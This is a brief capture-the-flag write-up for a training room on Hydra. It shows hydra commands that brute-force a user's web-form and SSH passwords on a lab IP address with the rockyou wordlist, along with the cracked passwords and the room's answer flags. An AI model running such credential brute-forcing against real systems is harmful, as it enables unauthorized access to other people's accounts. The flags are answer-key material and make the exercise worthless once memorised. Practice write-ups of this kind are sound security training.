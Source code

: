 # Hydra
Learn about and use Hydra, a fast network logon cracker, to bruteforce and obtain a website's credentials.

## [Task 1] Hydra Introduction
```
No answer needed
```



## [Task 2] Using Hydra

### Use Hydra to bruteforce molly's web password. What is flag 1?
```
$ hydra -l molly -P /opt/wordlists/rockyou.txt 10.10.217.206  http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V

[80][http-post-form] host: 10.10.217.206   login: molly   password: sunshine

THM{2673a7dd116de68e85c48ec0b1f2612e}
```

### Use Hydra to bruteforce molly's SSH password. What is flag 2?
```
$ hydra -l molly -P /opt/wordlists/rockyou.txt 10.10.217.206 -t 4 ssh

[22][ssh] host: 10.10.217.206   login: molly   password: butterfly

THM{c8eeb0468febbadea859baeb33b2541b}
```

